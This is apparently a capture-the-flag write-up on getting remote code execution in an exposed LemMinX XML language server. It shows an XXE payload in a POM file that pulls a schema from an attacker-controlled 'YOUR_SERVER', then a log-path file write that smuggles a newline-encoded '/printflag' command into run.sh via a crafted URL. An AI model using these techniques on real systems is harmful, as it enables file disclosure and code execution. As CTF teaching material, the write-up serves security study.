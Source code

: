 # LemMinX

* Category: Misc
* Score: ?/500
* Solves: ?

## Description

A weird service speaking a weird protocol. I think it is really safe to expose it to the public right? 🤔

## Overview

This challenges expose a direct socket access to [LemMinX](https://github.com/eclipse/lemminx) language server, the target is to get RCE.

## Solution

First, to communicate with the service you need to refer to [Language Server Protocol](https://microsoft.github.io/language-server-protocol/).

Also, since the server binary used here is exactly the same one as [Red Hat's XML Language Support](https://marketplace.visualstudio.com/items?itemName=redhat.vscode-xml), you can install it in VSCode to change the `xml.trace.server` setting the let it dump its JSON-RPC messages to help you figure out how it works.

The rough exploit idea is to find the randomly generated folder in `/home/ctf` first, then use arbitrary file write to write something to get code execution.

### Listing files

Since this is a XML language server, it is very likely to have XXE bugs. Also, the server is written in Java so XXE does allow us to list files. What I found is to abuse its hover feature the get XXE:

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0
  http://YOUR_SERVER/xxe.xsd">
  <modelVersion>
    aasdas
  </modelVersion>
</project>
```

When you try to hover on `modelVersion` it will try to read the file `xxe.xsd` from your server and display the description, and it is vulnerable to XXE so you can list dir with this.

> You can try this in VSCode, btw. It actually works.

You can refer to these files:

* [exp/solve_part1.py](exp/solve_part1.py)
* [exp/hello.xml](exp/hello.xml)
* [exp/xxe.xsd](exp/xxe.xsd)

It is necessary to run a server serving these files and modify `xxe.xsd` before running the exploit `python solve_part1.py $IP $PORT`.

### Arbitrary file write

You can find there is a logging feature by reading the [official documentation](https://github.com/eclipse/lemminx/blob/main/docs/Configuration.md#logging) or reading dumped initialization messages. So setting the log path to any file we want to write does the job.

The next step is to find some way to let user controlled string being logged, for example I use [resource download](https://github.com/eclipse/lemminx/blob/267551a24de8f6b3ae8c430de013340931f22be9/org.eclipse.lemminx/src/main/java/org/eclipse/lemminx/uriresolver/CacheResourcesManager.java#L213) message control the output.

### RCE

As for which file to write, it is easy to see `/home/ctf/?/run.sh` is `-rwxr-xr-x 1 ctf ctf`, so we can easily write some commands to that file and get command execution.

Use `python solve_part2.py $IP $PORT $FOLDER_NAME` to write, and `run.sh` will looks like this:

```sh
#!/bin/sh
timeout 10 ./lemminx-linux
Nov 27, 2022 2:46:55 AM org.eclipse.lemminx.XMLLanguageServer initialize
INFO: Initializing XML Language server
LemMinX Server info:
 - Version : 0.19.1
 - Native Image
 - VM Version : 1.8.0_272
 - Git [Branch 6059965ad91cd67cba1c91f4b82714c57dc64fa5] 6059965 - [maven-release-plugin] prepare release 0.19.1
Nov 27, 2022 2:46:55 AM org.eclipse.lemminx.uriresolver.CacheResourcesManager lambda$downloadResource$0
INFO: Downloading http://random/%0a/printflag%20%23 to /tmp/peko/cache/http/random/
/printflag #...
Nov 27, 2022 2:46:55 AM org.eclipse.lemminx.uriresolver.CacheResourcesManager lambda$downloadResource$0
SEVERE: Error while downloading http://random/%0a/printflag%20%23 to /tmp/peko/cache/http/random/
/printflag # : [java.net.UnknownHostException] random
```

So simply exit the language server and it will execute `/printflag` for you. Also, you don't need the third connection because shell script is [actually interpreted line by line](https://stackoverflow.com/a/19430939).
